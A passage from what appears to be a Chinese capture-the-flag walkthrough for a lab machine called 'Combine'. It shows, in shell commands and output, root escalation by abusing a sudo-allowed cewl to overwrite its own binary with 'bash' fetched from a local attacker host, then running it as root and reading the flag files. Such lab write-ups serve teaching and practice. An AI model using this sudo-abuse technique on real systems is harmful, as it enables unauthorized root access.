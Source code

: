**b. 目标机操作**

```shell
dashamao@Combine:~$ sudo /usr/bin/cewl http://192.168.205.128/a -w /usr/bin/cewl
...
dashamao@Combine:~$ cat /usr/bin/cewl
bash
```

**c. 提权成功**

再次执行`sudo /usr/bin/cewl`。

```shell
dashamao@Combine:~$ sudo /usr/bin/cewl
root@Combine:/home/dashamao# id
uid=0(root) gid=0(root) groups=0(root)
```

成功获取root权限。最后，读取flag文件。

```shell
root@Combine:/home/dashamao# cat /root/root.txt /home/dashamao/user.txt
flag{root-21c4f16ae4ebe48cfec8a6deb276b56b}
flag{user-4682ce07477fb95a0d4a9f84856ee52c}
```
